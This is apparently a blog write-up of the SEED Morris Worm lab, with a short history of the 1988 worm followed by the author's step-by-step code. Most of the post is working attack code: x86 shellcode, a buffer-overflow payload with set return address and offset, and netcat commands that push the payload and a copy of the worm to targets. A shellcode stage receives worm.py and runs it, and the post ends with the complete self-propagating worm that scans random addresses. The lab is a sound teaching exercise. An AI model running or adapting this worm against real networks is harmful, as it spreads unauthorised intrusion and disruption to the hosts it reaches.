 ```yaml
---
layout: post
title: "Worm Attack: Morris Worm"
excerpt:
categories: [bof, worm, malware]
---
```


A computer worm is a type of malware, that is designed to self-replicate across computer networks without needing any human interaction. It is can propagate rapidly, causing widespread damage. One of such case is that of the morris worm.

The worm was created in 1988 by Robert Tappan Morris. He claimed that the worm was not intended to cause harm, but rather to gauge the size of the internet. The worm ended up causing widespread damage and disruption as it quickly got out of control due to its ability to replicate and spread rapidly. The worm started to congest network traffic as it continued to replicate, leading to system crashes and slowdowns.

While the morris worm is old, the techniques used by most worms today are still the same and involve two main parts: attack and self-duplication.

In this post, I aim to document my findings and observations while performing a SEED lab.

<details>
<summary>Lab Notes</summary>

Address randomization is disabled.
```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0
```
</details>

<br>

### Attacking the First Target

This task focuses on the attacking part of the morris worm. Paet of the vulnerabilities exploited by the morris worm was a buffer-overflow vulnerability. The lab includes vulnerable servers that have a buffer-overflow vulnerability. The goal of this task is to exploit this vulnerability, so we can run our malicious code on the server.

The author of the lab has provided a skeleton code that will be edited and used to carry out the attack.

<details>
<summary>Morris Worm Attack Lab Skeleton Code</summary>

```python
#!/bin/env python3
import sys
import os
import time
import subprocess
from random import randint

# You can use this shellcode to run any command you want
shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   # You can put your commands in the following three lines. 
   # Separating the commands using semicolons.
   # Make sure you don't change the length of each line. 
   # The * in the 3rd line will be replaced by a binary zero.
   " echo '(^_^) Shellcode is running (^_^)';                   "
   "                                                            "
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
   # The last line (above) serves as a ruler, it is not used
).encode('latin-1')


# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   ret    = 0  # Need to change
   offset = 0  # Need to change

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)


# Find the next victim (return an IP address).
# Check to make sure that the target is alive. 
def getNextTarget():
   return '10.151.0.71'


############################################################### 

print("The worm has arrived on this host ^_^", flush=True)

# This is for visualization. It sends an ICMP echo message to 
# a non-existing machine every 2 seconds.
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)

# Create the badfile 
createBadfile()

# Launch the attack on other servers
while True:
    targetIP = getNextTarget()

    # Send the malicious payload to the target host
    print(f"**********************************", flush=True)
    print(f">>>>> Attacking {targetIP} <<<<<", flush=True)
    print(f"**********************************", flush=True)
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Give the shellcode some time to run on the target host
    time.sleep(1)


    # Sleep for 10 seconds before attacking another host
    time.sleep(10) 

    # Remove this line if you want to continue attacking others
    exit(0)
```
</details>


#### Creating the badfile

The attack involves overflowing a buffer in a function in the vulnerable program. To successfully execute a buffer-overflow attack, parameters like the stack frame pointer address, the buffer address of the vulnerable function need to be known. This can be obtained by debugging the program. However, because this lab is not necessarily about buffer-overflow, but observing a worm in acion, the author has designed the lab in such a way that these values are made available to the student when running the program runs normally.

```bash
echo hello | nc -w2 10.153.0.72 9090
```

**image**

We will use the information gotten from output of the program to edit the skeleton code such that a buffer-overflow attack happens

```python
# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   ret    = 0xffffd5f8 + 12
   offset = 112 + 4

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
```

<details>
<summary>Brief Code Explanation</summary>

The return address is after the frame pointer. This means that the return address is ebp+4 (for 32-bit). To find the offset, we have to find the distance of the return address from the start of the buffer. This is calculated as `ebp-buffer+4`

We have chosen the address to store in our return address as ebp+12 because we need the return address value to be an address of one of the NOPs.
</details>

To test the attack, we simply run the attack program. If the attack is successful, a smiley face will be printed out on the target machine. As seen from the screenshot below, the attack is successful.

**image**


<br>

### Self Duplication

The distinct property of a worm is that it self replicates by copying itself from one machine to amother. There are two typical strategies used by worms for replication:
- All the code is contained inside the shellcode payload
- The attack code is divided into two:
  -  an initial payload that is the shellcode used to exploit the buffer-overflow vulnerability
  -  a more complex payload (written using any language) that the shellcode fetches.

For our worm to achieve self duplication, we would further modify the skeleton code as thus:

```python
shellcode= (
   ... # existing code fragment
   " echo '(^_^) Shellcode is running (^_^)';                   "
   " nc -lnv 8000 > worm.py;                                    "
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
   # The last line (above) serves as a ruler, it is not used
).encode('latin-1')
```

```python
# Launch the attack on other servers
while True:
    ... # existing code fragment

    # Make a copy of the worm on the target host
    subprocess.run([f"cat worm.py | nc -w3 {targetIP} 8000"], shell=True)

    # Sleep for 10 seconds before attacking another host
    time.sleep(10) 

    # Remove this line if you want to continue attacking others
    exit(0)
```

Now, when the buffer-overflow vulnerability is exploited, our worm should be successfully copied. We can confirm by navigating to directory we provided.

**image**

**image**

<br>

### Propagation

After the previous task, the worm has crawled (copied) itself crawl from our computer to the first target. We however, want the worm to keep crawling to other computers. 

This task involves randomly generating an IP address and checking if the host is alive before launching the attack. The IP address will be randomly generated with the following pattern: `10.X.0.Y`, where X ranges from 151 to 155, and Y ranges from 70 to 80.

For our worm to achieve self duplication, we would further modify the skeleton code as thus:

```python
shellcode= (
   ... # existing code fragment
   " echo '(^_^) Shellcode is running (^_^)';                   "
   " nc -lnv 8000 > worm.py && python3 worm.py;                 "
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
   # The last line (above) serves as a ruler, it is not used
).encode('latin-1')
```

```python
# Find the next victim (return an IP address).
# Check to make sure that the target is alive. 
def getNextTarget():
   while True:
      X = randint(151, 155)
      Y = randint(70, 80)
      ipaddr = f"10.{X}.0.{Y}"
      try:
         subprocess.check_output(f"ping -q -c1 -W1 {ipaddr}", shell=True)
         print(f"***{ipaddr} is alive, launch the attack", flush=True)
         return ipaddr
      except subprocess.CalledProcessError:
         print(f"{ipaddr} is not alive", flush=True)
```

```python
# Launch the attack on other servers
while True:
    targetIP = getNextTarget()

    ... # existing code fragment

    # Remove this line if you want to continue attacking others
    #exit(0)
```

Now, when the buffer-overflow vulnerability is exploited, not only is our worm copied, it also propagates. We can confirm by viewing internet map provided in the lab.

**image**

**image**

<br>

### Preventing Self Infection

To prevent our worm from running uncontrolled, we would need to put a check so that once a computer is compromised and an instance of the worm is already running, another instance of the worm will not run in a separate process. 
This task involves implementing a sort of checking mechanism to the worm code to ensure that only one instance of the worm can run on a compromised computer. 

In order to implement a checking mechanism for our worm, we would further modify the skeleton code as thus:

```python
# Function to check to make sure this istance is a fresh instance
def checkInstance():
      wormProcess = subprocess.check_output(["ps -ef | grep '0 python3 worm.py'"], shell=True).decode()
      wormProcess = wormProcess.rstrip().split('\n')
      if len(wormProcess) > 3:
         print("There is already a running instance. Exiting.", flush=True)
         #print(wormProcess.rstrip().split('\n'), flush=True)
         exit(0)

# Check if istance is already running
checkInstance()
```

I have chosen to use `ps` to check if the program is already running. I have also decided to check if the result gotten by `ps` is greater than three because:
- running the python subprocess function = 1 positive result
- running `grep` = 1 positive result
- the worm.py program itself = 1 positive result

Thus if the results are more, kill the process because it is a new one.

We can confirm the code works by viewing internet map provided in the lab.

**image**

<br>

###  Releasing the Worm on the Mini Internet

<details>
<summary>Complete Worm Code</summary>

```python
#!/bin/env python3
import sys
import os
import time
import subprocess
from random import randint

# You can use this shellcode to run any command you want
shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   # You can put your commands in the following three lines. 
   # Separating the commands using semicolons.
   # Make sure you don't change the length of each line. 
   # The * in the 3rd line will be replaced by a binary zero.
   " echo '(^_^) Shellcode is running (^_^)';                   "
   " nc -lnv 8000 > worm.py && python3 worm.py;                 "
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
   # The last line (above) serves as a ruler, it is not used
).encode('latin-1')


# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   ret    = 0xffffd5f8 + 12  # Need to change
   offset = 112 + 4  # Need to change

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)


# Find the next victim (return an IP address).
# Check to make sure that the target is alive. 
def getNextTarget():
   while True:
      X = randint(151, 155)
      Y = randint(70, 80)
      ipaddr = f"10.{X}.0.{Y}"
      try:
         subprocess.check_output(f"ping -q -c1 -W1 {ipaddr}", shell=True)
         print(f"***{ipaddr} is alive, launch the attack", flush=True)
         return ipaddr
      except subprocess.CalledProcessError:
         print(f"{ipaddr} is not alive", flush=True)
      
###############################################################
# Check to make sure this istance is a fresh instance
def checkInstance():
      wormProcess = subprocess.check_output(["ps -ef | grep '0 python3 worm.py'"], shell=True).decode()
      wormProcess = wormProcess.rstrip().split('\n')
      if len(wormProcess) > 3:
         print("There is already a running instance. Exiting.", flush=True)
         #print(wormProcess.rstrip().split('\n'), flush=True)
         exit(0)

############################################################### 

print("The worm has arrived on this host ^_^", flush=True)

# This is for visualization. It sends an ICMP echo message to 
# a non-existing machine every 2 seconds.
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)

# Create the badfile 
createBadfile()

# Check of istance is already running
checkInstance()

# Launch the attack on other servers
while True:
    targetIP = getNextTarget()

    # Send the malicious payload to the target host
    print(f"**********************************", flush=True)
    print(f">>>>> Attacking {targetIP} <<<<<", flush=True)
    print(f"**********************************", flush=True)
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Give the shellcode some time to run on the target host
    time.sleep(1)

    # Make a copy of the worm on the target host
    subprocess.run([f"cat worm.py | nc -w3 {targetIP} 8000"], shell=True)

    # Sleep for 10 seconds before attacking another host
    time.sleep(10)

    # Remove this line if you want to continue attacking others
    #exit(0)
```
</details>

